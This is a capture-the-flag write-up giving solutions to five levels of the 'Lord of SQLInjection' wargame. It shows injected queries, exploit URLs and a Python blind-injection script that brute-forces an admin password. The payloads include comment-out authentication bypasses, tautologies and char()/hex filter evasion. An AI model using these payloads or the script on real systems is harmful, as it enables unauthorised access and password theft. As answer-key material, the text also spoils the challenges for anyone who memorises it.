


# Lord of SQLInjection Write-ups

## gremlin



query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

__exploit :__ https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23


<br>

## cobolt


query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```

__exploit :__ https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin'%23



<br>

## goblin


__query1 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or no!=1
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or no!=1


__query2 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
 
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=char(97,100,109,105,110)

__query3 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or ord(id)=97
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or ord(id)=97

__query4 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=0x61646d696e


## orc

___Blind SQL Injection!___

length: 8


__exploit__ : [orc.py](./code/orc.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID="your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "' or id = 'admin' and substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```


## wolfman


__query :__
```SQL
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw='||id='admin


<br>